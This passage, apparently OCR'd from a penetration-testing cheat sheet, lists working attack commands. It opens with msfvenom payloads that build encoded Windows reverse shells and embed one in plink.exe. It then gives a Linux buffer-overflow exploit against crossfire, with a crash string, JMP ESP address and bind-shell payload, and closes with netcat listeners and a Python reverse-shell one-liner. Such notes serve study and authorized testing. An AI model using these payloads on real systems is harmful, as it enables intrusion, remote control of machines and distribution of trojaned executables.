     -   Create a PE reverse shell and embed it into an existing
        executable  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444 -f
        exe -e x86/shikata\_ga\_nai -i 9 -x
        /usr/share/windows-binaries/plink.exe -o
        shell\_reverse\_msf\_encoded\_embedded.exe

    -   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse\_https LHOST=$ip
        LPORT=443 -f exe -o met\_https\_reverse.exe

-   Linux Buffer Overflows

    -   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    -   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax

    -   Check for “Bad Characters” Process of elimination - Run multiple
        times 0x00 - 0xFF

    -   Find JMP ESP address  
        "\\x97\\x45\\x13\\x08" \# Found at Address 08134597

    -   crash = "\\x41" \* 4368 + "\\x97\\x45\\x13\\x08" +
        "\\x83\\xc0\\x0c\\xff\\xe0\\x90\\x90"

    -   msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4444 -f c -b
        "\\x00\\x0a\\x0d\\x20" –e x86/shikata\_ga\_nai

    -   Connect to the shell with netcat:  
        nc -v $ip 4444
        
Shells
===============================================================================================================================

-   Netcat Shell Listener  
    nc -nlvp 443

-   Spawning a TTY Shell - Break out of Jail or limited shell
         You should almost always upgrade your shell after taking control of an apache or www user.
        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
        (hint: sudo -l to see what you can run)

     -   python -c 'import pty; pty.spawn("/bin/sh")'

     -   python -c 'import
         socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);
         s.connect(("$ip",1234));os.dup2(s.fileno(),0);
         os.dup2(s.fileno(),1);
         os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'
